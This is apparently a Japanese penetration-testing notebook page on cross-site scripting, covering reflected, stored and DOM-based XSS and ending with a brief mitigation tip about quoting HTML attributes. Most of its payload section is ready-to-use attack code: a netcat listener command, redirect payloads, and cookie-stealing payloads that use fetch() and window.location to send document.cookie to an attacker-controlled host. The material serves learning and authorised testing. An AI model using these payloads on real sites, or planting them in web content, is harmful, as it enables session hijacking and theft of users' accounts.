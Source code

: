 ```yaml
---
tags:
  - Offensive
---
```

# クロスサイトスクリプティング(XSS)

自分が入力した内容が誰かに表示されるようなサイトで悪意のあるHTMLを挿入し、クッキー等のデータを盗んだり、強制的にリダイレクトしたりできる。具体的には、入力フィールドや管理者等に送られるデータの中身(リクエストヘッダー)等に仕込む方法がある。

XSSに3つに分類される。
- Reflected XSS
- Stored XSS
- DOM Based XSS

### Reflected XSS

入力フィールドに入力できるときに、GetURLの引数としてペイロードを埋め込んだURLを踏ませることで、クッキー等を盗める。
他にも、入力内容やリクエストヘッダー、POSTリクエストの引数が管理者に送信され、それを見た場合等がある。

### Stored XSS

掲示板等で入力された内容がDBに保存され、永続的に発火することができるタイプ。

## ペイロード

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

### 簡易検証

```html
<b>hoge</b>
```

### 検証用

まず、`nc -lvnp 8000`で待ち受ける。

1. リダイレクト(meta)
	```html
	<meta http-equiv="refresh" content="0;URL=http://<ip>:8000/">
	<script>window.location="http://<ip>:8000/";</script>
	<img src="http://<ip>:8000/"></img>
	```

### クッキー

```html
<img src=x onerror="fetch('http://<ip>:8000/'+document.cookie)"></img>
<script>window.location="http://<ip>:8000/"+document.cookie;</script>
```


## 対策

1. HTMLの属性はダブルクォートで囲む
	```html
	<tag attr=ここに動的に生成>
	```
	このようなHTMLだと、空白を含むペイロードを送ることで、任意の属性を生成してしまう。
	```html
	<tag attr=hoge onmouseover=xss>
	```
